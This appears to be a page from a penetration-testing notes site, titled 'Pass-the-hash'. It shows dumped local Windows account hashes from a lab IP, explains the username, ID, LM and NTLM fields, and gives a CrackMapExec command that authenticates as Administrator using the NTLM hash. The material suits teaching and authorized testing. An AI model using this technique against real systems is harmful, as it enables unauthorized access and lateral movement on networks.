


+++
title = "Pass-the-hash"
weight = 2
+++

### A totally acurate diagram of Windows authentication


## 1. Passing NTLM hashes with Crackmapexec
Consider the following hashes obtainee from **192.168.0.130**
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fa4621870bd7787de99541e0699e738c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2620172f5a22c57e5c7a5450e21313b8:::
```

Here we can see four local user accounts with the following information sepreated by *:*

*  **Username:** - Administrator
*  **User ID:** - 500
*  **LM (Lan Manager) Hash:** - aad3b435b51404eeaad3b435b51404ee
*  **NTLM (New Technology LM) Hash:** - fa4621870bd7787de99541e0699e738c

After you see a few hundred of these you start to recognize automatically that the LM hash is the equivlant of 
a blank password because this system doesn't store/support user's LM hashes (*duh it's 2023 lol*)

The only thing we need to authenticate to this system with Crackmapexec is the username and the NTLM hash.
`cme smb hosts/windows.txt --local-auth -u administrator -H fa4621870bd7787de99541e0699e738c`


